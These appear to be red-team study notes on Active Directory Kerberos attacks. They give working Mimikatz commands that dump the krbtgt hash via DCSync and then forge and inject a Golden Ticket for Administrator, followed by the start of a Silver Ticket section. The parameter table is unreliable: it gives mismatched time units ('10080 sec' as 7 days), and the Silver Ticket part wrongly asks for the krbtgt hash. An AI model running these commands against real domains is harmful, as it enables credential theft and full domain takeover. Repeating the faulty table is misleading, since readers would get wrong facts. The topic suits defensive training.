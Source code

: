 - No AS-REQ or AS-REP communication exists with the DC. Golden Ticket is sent to the DC to get a TGS.
  - Present TGT, request TGS (TGS-REQ)
  - TGS response (receive TGS)
  - Client using the allotted TGS are authenticated as well as authorized to access DB server
  - Other optional validation requests with the DC is performed.

- Extract krbtgt account hash :

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:cyberwarfare\krbtgt"
```

- Domain SID : 

```powershell
whoami /all (of a domain user)
```

- Adversary Forge Golden ticket in a Domain as follows : 

```powershell
Invoke-Mimikatz -Command "kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-xxxxx-yyyyy-xxxxx /krbtgt:xxxxxxxxxxxxxxxxxx /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

#### Command Explanation

| Command | Explanation |
| --- | --- |
| kerberos::golden | Module Name |
| /User:Administrator | Username for which the TGT is generated |
| /domain:cyberwarfare.corp | Current Domain Fully Qualified Domain Name |
| /sid:xxx | SID value of the domain |
| /krbtgt:yyyyy | Krbtgt user account hash |
| /ptt | Injects the ticket in current session (memory) |
| /ticket | Save the ticket in .kirbi format |
| /startoffset:0 | Set ticket time to the latest (current) |
| /endin:600 | 600 sec (10 minutes) by-default 10 Years |
| /renewmax:10080 | 7 Days (10080 sec) |

### Silver Ticket Attack

- Silver ticket is signed and encrypted with the target service account hash.

- Represents a valid TGS (for authorization)

- Requirements :
  - Domain SID
  - Service account /Machine Account hash
  - Domain name
  - SIDS (in Cross-Forest Attacks)
- Extract krbtgt account hash : 
- Domain SID : 
